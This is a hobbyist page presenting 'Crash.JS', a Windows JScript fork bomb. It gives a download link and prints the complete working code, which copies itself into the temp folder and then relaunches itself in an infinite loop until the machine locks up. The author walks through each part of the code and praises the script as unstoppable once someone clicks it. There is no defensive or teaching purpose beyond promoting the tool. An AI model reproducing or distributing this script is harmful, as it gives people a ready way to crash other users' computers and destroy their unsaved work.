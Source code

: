 MiniML 1.0
//Copyright Emilien Breton


Preface
-------

[Crash.JS] is a [JScript] file that {crashes:: https://en.wikipedia.org/wiki/Crash_(computing)} any PC in a matter of seconds. It renders the target computer slow, then unresponsive, and continues until it simply crashes. The way it works is very simple: it runs copies of itself in a loop as quick as it can, which means that processes are started {exponentially:: https://www.dictionary.com/browse/exponentially} more quickly every second. No PC can handle that much stress, and so after a small amount of time, it just gives up. If you would like to download it for yourself, just {click here:: ./Crash.js}!


How it works
------------

Here is the whole code ran by the program:
	[[
	var fso = new ActiveXObject('Scripting.FileSystemObject');
	var wsh = new ActiveXObject('WScript.Shell');
	&nbsp;
	if(WScript.Arguments.length == 0){
	  fso.CopyFile(WScript.ScriptFullName, fso.GetSpecialFolder(2) + '\\\');
	  wsh.Run(fso.GetSpecialFolder(2) + '\\\' + WScript.ScriptName + ' 1');
	}else while(true) wsh.Run(WScript.ScriptFullName + ' 1');
	]]
It is divided into 3 major parts. The first one is the following:
	[[
	var fso = new ActiveXObject('Scripting.FileSystemObject');
	var wsh = new ActiveXObject('WScript.Shell');
	]]
All this does is it initializes two variables ([fso] and [wsh]) for later use, so it is not that important. After that, the second part of the program gets run. Here it is:
	[[
	if(WScript.Arguments.length == 0){
	  fso.CopyFile(WScript.ScriptFullName, fso.GetSpecialFolder(2) + '\\\');
	  wsh.Run(fso.GetSpecialFolder(2) + '\\\' + WScript.ScriptName + ' 1');
	}
	]]
The job of this part is to make a copy of the program in a {temporary directory:: https://en.wikipedia.org/wiki/Temporary_folder}, so that if the original gets deleted, the infection continues. It has a very important statement in it: [if(WScript.Arguments.length == 0)]. This statement makes sure that the program was run by the user, so it only makes a copy of itself when you run it for the first time. Then, once a copy has been made, the third part of the program executes. It consists of the following:
	[[
	else while(true) wsh.Run(WScript.ScriptFullName + ' 1');
	]]
The key of this part is the [while(true)] section: it is used to execute the next statement in an infinite loop... and it turns out that the next statement runs the program again, but in a separate process. This is the part that actually crashes the computer, because the more {instances:: https://en.wikipedia.org/wiki/Instance_(computer_science)} of this program are running, the more {instances:: https://en.wikipedia.org/wiki/Instance_(computer_science)} will be created!


Final Words
-----------

In my opinion, this is an very simple, but extremely effective little piece of software. However, some people may argue:
	""Sure, but very powerful computers will take hours to even start to slow down!""
And this is a fair point, except it's not. Powerful computers usually take even less time to come to a {halt:: https://en.wikipedia.org/wiki/Crash_(computing)} for the simple reason that they can execute the program's code way faster, which also {crashes:: https://en.wikipedia.org/wiki/Crash_(computing)} the computer quicker. This program is awesome because there is no way to stop it: once someone clicks on it, it's already too late!
